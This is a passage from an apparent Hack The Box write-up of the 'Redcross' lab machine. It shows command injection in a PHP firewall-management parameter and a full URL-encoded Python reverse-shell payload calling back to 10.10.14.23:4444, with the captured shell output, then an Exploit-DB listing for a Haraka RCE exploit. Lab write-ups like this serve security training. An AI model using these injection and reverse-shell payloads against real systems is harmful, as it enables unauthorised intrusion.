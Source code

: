 Whenever we add/delete an IP from the firewall ACL's, the PHP code does a system() call to run the `iptctl` application and make changes to the firewall rules. If we add a semi-colon in the `id` parameter we are able to inject commands and gain code execution.

Example payload like the following: `ip=1;id&action=deny`

```
Usage: /opt/iptctl/iptctl allow|restrict|show IP
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Since we now have RCE, we can use a standard python reverse shell command to get shell on the system.

Payload: `ip=1;python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.23",4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b'&action=deny`

And we get a shell!

```console
root@ragingunicorn:~/hackthebox/Machines/Redcross# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.113] 51712
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
redcross
```

```console
www-data@redcross:/home/penelope$ ls -l 
ls -l 
total 8
drwxrwx--- 6 penelope mailadm  4096 Jun  7 17:59 haraka
-rw-r----- 1 root     penelope   33 Jun  7 18:18 user.txt
www-data@redcross:/home/penelope$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

We still can't read `user.txt` since it's owned by `penelope`... Gotta try harder I guess.

### Priv esc to penelope

Penelope's home directory contains the `haraka` directory. Haraka is an SMTP email server written in Node.js and contains at least one vulnerability according to Exploit-DB:

```
-----------------------------------------
Haraka < 2.8.9 - Remote Command Execution
/linux/remote/41162.py
-----------------------------------------
Shellcodes: No Result
```
